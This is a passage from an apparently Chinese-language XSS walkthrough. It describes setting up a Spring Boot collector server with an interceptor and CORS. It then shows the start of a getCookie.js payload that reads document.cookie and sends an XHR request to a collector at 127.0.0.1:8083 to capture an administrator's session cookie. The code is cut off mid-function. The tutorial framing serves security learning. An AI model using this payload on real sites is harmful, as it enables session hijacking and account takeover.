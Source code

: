 ![image-20231226172253538](image-20231226172253538.png)

下面构造XSS代码，获取管理员的信息。

这里使用boot写个web项目，写个Interceptor可以获取请求的各种信息，然后打印。用于接收XSS传递过来的数据。并且需要配置下跨域。

![image-20231226172940339](image-20231226172940339.png)

xss代码:

getCookie.js

```js
(function Show(){

    const cookie = document.cookie;
     
    // 使用xhr向URL为： 127.0.0.1:8083发送GET请求，参数为cookie=上面获取的cookie  
    const xhr = new XMLHttpRequest();  
    xhr.open('GET', 'http://127.0.0.1:8083', true);  
    
    xhr.onload = function () {  
        if (xhr.status >= 200 && xhr.status < 300) {  
            console.log(xhr.responseText);  // 请求成功，打印返回的内容  
        } else {  
            console.error(xhr.statusText);  // 请求失败，打印错误信息  
        }  
    };  
```